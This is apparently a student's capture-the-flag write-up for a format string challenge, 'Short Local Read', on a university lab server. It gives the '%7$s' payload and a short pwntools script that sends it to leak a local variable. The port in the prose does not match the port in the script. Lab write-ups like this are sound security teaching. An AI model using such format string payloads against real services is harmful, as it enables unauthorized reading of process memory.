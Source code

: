 # Challenge `Short Local Read` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23192
- Impact:
  - Allows user to read local variable

## Steps to reproduce

1. Write `%7$s` to buffer, in order to print the 7th arg after format string

The code used was the following:

```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23191, timeout=100)
s.sendline(b"%7$s")
print(s.recvall())
```